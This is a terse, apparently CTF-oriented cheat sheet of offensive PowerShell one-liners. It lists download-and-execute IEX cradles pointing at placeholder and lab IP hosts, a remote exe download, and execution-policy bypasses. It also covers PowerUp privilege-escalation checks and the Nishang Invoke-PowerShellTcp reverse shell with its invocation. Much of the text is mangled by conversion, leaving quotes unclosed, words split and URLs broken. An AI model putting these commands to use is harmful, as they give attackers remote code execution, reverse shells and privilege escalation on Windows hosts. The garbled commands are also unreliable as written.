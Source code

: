 # **powershell**

For powershell reverse shell -> `powershell iex(new-object net.webclient).downloadstring('`[http://](http://10.10.14.14/Invoke-PowerShellTcp.ps1)`x.x.x.x         `powershell “IEX(New-Object Net.WebClient).downloadString('http://x.x.x.x  
  
powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://x.x.x.x  
  
powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"  
  
powershell -c "(new-object System.Net.WebClient).DownloadFile('[http://](http://10.10.14.30:9005/40564.exe',)x.x.x.x  
  
powershell Get-Content -Path "hm.txt"  -Stream "root.txt"   
  
wget [https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/P](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/P) owerUp.ps1 echo​ Invoke-AllChecks >> PowerUp.ps1 python3 -m http.server 80 iex(new-object net.webclient).downloadstring(​ip/powerup  
  
[https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1)  
  
  
  
[https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1%C2%A0)   
Invoke-PowerShellTcp -Reverse -IPAddress <IP Address> -Port <Port>  
powershell -ep bypass .\Invoke-PowerShellTcp.ps1